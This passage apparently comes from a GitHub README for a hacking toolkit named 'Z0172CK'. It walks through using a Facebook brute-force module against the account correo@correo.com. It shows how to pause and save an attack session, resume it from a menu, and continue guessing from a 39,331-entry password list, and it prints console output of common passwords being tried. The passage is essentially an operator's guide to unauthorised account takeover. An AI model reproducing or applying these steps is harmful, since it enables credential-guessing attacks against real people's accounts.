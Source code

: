 all 20 passwords have been completed and we have to wait for one or we can give it Ctrl + c to save the attack and use it again in an hour

```bash
Ctrl + c
[*] Waiting a second...

Save session for user correo@correo.com ? [Y/n]:
```

It will ask us if we want to save the session. in this case I give it that if

```bash
Save session for user correo@correo.com ? [Y/n]: Y
```

```bash
Session saved.
Use [11] resume
```

after being saved we can use the attack again until it was

```bash
[01] Start Brute Force
[02] Continue Brute Force

[99] Back

Z0172CK (BruteForce/Facebook) > 2
```

```bash
Z0172CK (BruteForce/Facebook) > 2
Files sessions:
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number: 
```

we give enter and we can continue with our attack

```bash
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number: 
[*] Resuming session for user: 
[*] Wordlist:  modules/FB-BruteForce/passwords.lst
[*] Press Ctrl + C to stop or save session
Trying pass (20/39331): 987654321
Trying pass (21/39331): corvette
Trying pass (22/39331): 1234qwer
Trying pass (23/39331): 88888888
Trying pass (24/39331): q1w2e3r4t5
Trying pass (25/39331): internet
Trying pass (26/39331): samantha
Trying pass (27/39331): whatever
Trying pass (28/39331): maverick
Trying pass (29/39331): steelers
Trying pass (30/39331): mercedes
Trying pass (31/39331): 123123123
Trying pass (32/39331): qwer1234
Trying pass (33/39331): hardcore
Trying pass (34/39331): q1w2e3r4
Trying pass (35/39331): midnight
Trying pass (36/39331): bigdaddy
Trying pass (37/39331): victoria
```

